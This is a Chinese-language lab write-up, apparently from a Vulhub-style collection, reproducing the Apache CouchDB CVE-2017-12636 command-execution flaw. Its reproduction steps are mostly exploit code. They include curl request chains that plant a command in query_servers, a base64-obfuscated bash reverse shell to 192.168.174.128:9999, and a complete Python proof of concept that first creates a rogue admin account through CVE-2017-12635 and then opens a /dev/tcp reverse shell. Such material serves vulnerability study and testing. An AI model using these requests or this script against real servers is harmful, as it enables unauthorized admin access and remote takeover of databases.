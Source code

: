 # Apache CouchDB 任意命令执行漏洞 CVE-2017-12636

## 漏洞描述

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

参考链接：

- http://bobao.360.cn/learning/detail/4716.html
- https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 漏洞影响

```
Couchdb 小于 1.7.0 以及 小于 2.1.1
```

## 环境搭建

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动CVE-2017-12635附带的环境。

Vulhub执行如下命令启动Couchdb 1.6.0环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:5984/`即可看到Couchdb的欢迎页面。

## 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用CVE-2017-12635先增加一个管理员用户。

### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

![image-20220222104917650](images/202202221049822.png)

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

查看`/tmp/success`文件内容：

![image-20220222104941298](images/202202221049362.png)

### 2.1.0 下的说明

2.1.0中修改了上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@your-ip:5984/_membership
```

![image-20220222101400236](images/202202221014285.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![image-20220222101444275](images/202202221014315.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

![image-20220222101810195](images/202202221018281.png)

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

增加`_view`的同时即触发了`query_servers`中的命令，`/tmp/success`文件夹被成功创建。

![image-20220222102002703](images/202202221020820.png)

### 1.6.0下反弹shell

curl 调用字符串需要用 `'`或`"`；json 需要 `"`，bash -c 的字符串需要 `'`或`"`，因此可以将反弹 shell 的语句写在文本shell.txt里面，然后通过 curl 调用shell.txt。

```
$ vim shell.txt
文件内容："bash -c '{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNzQuMTI4Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}'"
```

依次执行如下请求即可触发反弹shell：

```
# 第一步：-d参数读取本地文本文件的数据，向服务器发送
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/_config/query_servers/cmd' -d '@shell.txt'

# 第二步：添加Database
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/vultest'

# 第三步：添加Document
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

# 进行查询，将language设置为cmd，这里就会用到第一步里添加的名为cmd的query_servers，最后触发命令执行
curl -X POST 'http://vulhub:vulhub@192.168.174.128:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

## 漏洞POC

1.6.0或2.1.0下反弹shell的poc

```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://192.168.174.128:5984'
command = rb"""sh -i >& /dev/tcp/192.168.174.128/9999 0>&1"""

# Change Version Here
version = 2

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
```

成功反弹shell

![image-20220222104008354](images/202202221040431.png)
